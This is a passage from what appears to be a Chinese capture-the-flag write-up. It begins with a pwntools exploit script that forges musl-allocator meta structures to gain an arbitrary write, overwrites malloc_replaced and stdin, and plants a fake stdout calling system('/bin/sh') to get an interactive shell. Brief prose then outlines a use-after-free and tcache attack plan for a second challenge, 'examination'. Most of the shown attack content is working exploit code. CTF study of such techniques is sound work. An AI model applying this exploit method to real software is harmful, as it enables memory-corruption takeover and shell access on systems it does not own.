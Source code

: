 ```python
fake_meta += p64(data+off-0x70)[:8]+p64(0)# 040=fakemeta_addr
fake_meta += p64(secret)+p64(0)*7+p64(0)+p64(0)# 
fake_meta += p64(data+off-0x70+0x240)+p64(0)+p64((sizeclass << 6) + 1)#  0xxx280 0 281 fakemeta
fake_meta = fake_meta.ljust(0x1200,'\x00')
fake_meta += (p64(data+off-0x70)+p64(0))*2# # 040=fakemeta_addr fakechunk

add(0x60,'12',0x1540,fake_meta)# lase page
fake_meta_ptr = p64(data+off-0x80+0x20+0x240)+p64(0)+p64(1)# # 0xx290=fakechunk lastpage 
add(0x60,'11',0x1e,fake_meta_ptr)
add(0x60,'13',0x1540,fake_meta) # anon+0x90 # 2page 这里无所谓
delete(0x60,p8((0x40)&0xff))# del 11.con 触发伪造meta
#------------------------------------------------
# 利用伪造的active[10]达到任意地址写，改malloc_replaced/stdin
delete(0x60,'12')# lastpage del

malloc_replaced = libc_base + 0xB6F84
fake_meta = ''
fake_meta = fake_meta.ljust(0x1000-0x10-0x80-0x20,'a')
fake_meta+= p64(data+off+0x10-0x80)[:8]+p64(0)
fake_meta+= p64(secret)+p64(0)*7+p64(0)+p64(0)
fake_meta+= p64(malloc_replaced-0x10+4)+p64(1)+p64((1 << 6) + 1)# set mem to add

add(0x60,'12',0x1540,fake_meta)# add lastpage
add(0x60,'14',0xa0,'\x00')# 申请malloc_replaced/写入堆块头
#-----------------------------------------------
delete(0x60,'12')# lastpage del
stdin = libc_base +0xB4180
sys = libc_base + 0x50A90
lg('stdin',stdin)
lg('sys',sys)

fake_meta = ''
fake_meta = fake_meta.ljust(0x1000-0x10-0x80-0x20-0x10,'a')
fake_meta+= p64(data+off+0x10-0x80)[:8]+p64(0)
fake_meta+= p64(secret)+p64(0)*7+p64(0)+p64(0)
fake_meta+= p64(stdin - 0xd0)+p64(1)+p64((9 << 6) | 1)+'a'*0x18+p64(stdout-0x10)
add(0x60,'12',0x1540,fake_meta)# add lastpage
fakesttdout = 0x20*'\x00'+"/bin/sh\x00"+"A"*0x20+p64(1)+'a'*8+p64(0)+'a'*8+p64(sys)# gdb调试定位输入点
add(0x60,'fakesttdout',0xa0,fakesttdout)
sleep(0.1)
sl('5')
p.interactive()
```

## examination(UAF+calloc/exit_hook利用)

这题就像作者说的一样，功能比较多更接近真实程序，还是要跟着漏洞走。既然有UAF就试试打tcache_struct

主要利用思路：题目有个功能当分数大于60分时，会打印一个堆地址得到heap_base；在教师端打分，当存在'惩罚'时，会扣分，这里的成绩sc是个无符号数，所以可以直接得到一个很大的分值。又有一个奖励功能，一个'学生'有一次机会，对一个地址里的值+1，利用这一点可以修改tcache，但题目用calloc申请，所以这里主要是填tcachebin，结合del功能（这里能del四次），实现放入一个堆块进入unsortbin，得到libc_base。
